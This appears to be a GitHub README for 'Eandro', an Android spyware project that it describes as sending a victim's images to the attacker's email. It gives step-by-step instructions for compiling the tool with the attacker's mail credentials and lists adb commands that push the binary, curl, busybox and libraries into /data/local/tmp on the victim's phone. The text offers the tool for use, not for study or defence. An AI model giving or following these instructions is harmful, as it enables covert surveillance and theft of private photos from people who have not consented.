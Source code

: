 # Eandro

Eandro is a Hacking Project to Automatical send Image of victim to Your Mail ID

Things You Need Above files
Copy Everything to your sdcard OR to your computer .

Make Sure adb Works either in Computer or Mobile Phone

1 . Install adb in Android or Computer
2 . Download Files that i Provided
3 . Download Eandro.c code to your Mobile or computer
4 . And here tough part comes install clang in Android or computer 
5 . To install clang in android install Termux in Android and type "apt install clang" without quotes.
6 . After install the c Compiler compile the code that i gave change the email and password and also from and to mail addresses
7 . To compile c code in android copy the /data/data/com.termux/files/home/ i.e Home Directory and type "gcc eandro.c -o eandro" [ Without Quotes ]
8 . Next you need to push all files and compiled binaryfile to /data/local/tmp/ of the Victims Mobile

To Push the Files you need to follow the steps

In Android : Below Command are steps to push the files to Victims Mobile if adb supports to your mobile i included adb binary file here download it

I suggest to download Termux and install certain packages 

apt install git 
apt install clang

after successfully installtion of these two proceed following steps
 > cd /data/data/com.termux/files/home/
 > git clone git@github.com:maddalakum/Eandro.git
 > cd /data/data/com.termux/files/home/Eandro/lib64/ ; 
 > adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; 
 > for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; 
 > adb push ../curl /data/local/tmp/ ; 
 > adb push ../busybox /data/local/tmp/
 
In Computer download the Zip file place the file in desktop and unzip and push the files normall as i said to android

Watch My Video to how to do it 

https://www.youtube.com/channel/UCYgXhhbtAuFHOKsNDujcxzQ
